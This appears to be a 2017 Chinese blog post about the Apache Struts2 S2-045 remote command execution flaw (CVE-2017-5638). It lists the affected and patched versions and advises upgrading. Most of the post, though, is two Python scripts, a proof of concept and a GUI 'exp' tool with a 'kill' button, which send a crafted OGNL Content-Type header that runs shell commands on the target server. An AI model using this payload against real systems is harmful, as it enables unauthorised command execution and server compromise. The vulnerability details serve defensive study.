 ```yaml
---
layout:     post
title:      J2EE struts2远程命令执行漏洞
subtitle:   J2EE struts2远程命令执行漏洞
date:       2017-08-09
author:     Ytala
header-img: img/post-bg-re-vs-ng2.jpg
catalog: true
tags:
    - Blog
---
```

> 正所谓前人栽树，后人乘凉。
> 
> 立志做pwn狗中web最好的
> 





#struts2远程命令执行漏洞S2-045

Apache Struts 2被曝存在远程命令执行漏洞，漏洞编号S2-045，CVE编号CVE-2017-5638，在使用基于Jakarta插件的文件上传功能时，有可能存在远程命令执行，导致系统被黑客入侵，漏洞评级为：高危。

漏洞详情：恶意用户可在上传文件时通过修改HTTP请求头中的Content-Type值来触发该漏洞，进而执行系统命令。

风险等级：高风险。

漏洞风险：黑客通过利用漏洞可以实现远程命令执行。

影响版本：Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10。

安全版本：Struts 2.3.32或2.5.10.1。

poc，如下：

#! /usr/bin/env python
# encoding:utf-8
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers



def poc():
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()

poc()

exp，如下：
    
    #coding:utf-8
    import urllib2
    from Tkinter import *
    import sys
    from poster.encode import multipart_encode
    from poster.streaminghttp import register_openers
    
    
    
    class START():
    
    def __init__(self,root):
    self.root=root
    self.show_W_Text = Text()
    self.show_url_ed = Label(root, text="str2")
    self.edit_url = Entry(root, text="输入地址")
    self.butt_whois = Button(root, text="kill",command=self.poc)
    self.show_url_ed.pack()
    self.edit_url.pack()
    self.butt_whois.pack()
    self.show_W_Text.pack()
    
    def poc(self):
    w_url = self.edit_url.get()
    text = self.show_W_Text
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header[
    "User-Agent"] = "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header[
    "Content-Type"] = "%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(w_url, datagen, headers=header)
    response = urllib2.urlopen(request).read()
    text.insert(1.0, response)
    
    
    if __name__ == '__main__':
    
    root=Tk()
    root.title("....")
    motion=START(root)
    mainloop()

修复建议：如您正在使用Jakarta文件上传插件，请升级Struts至安全版本。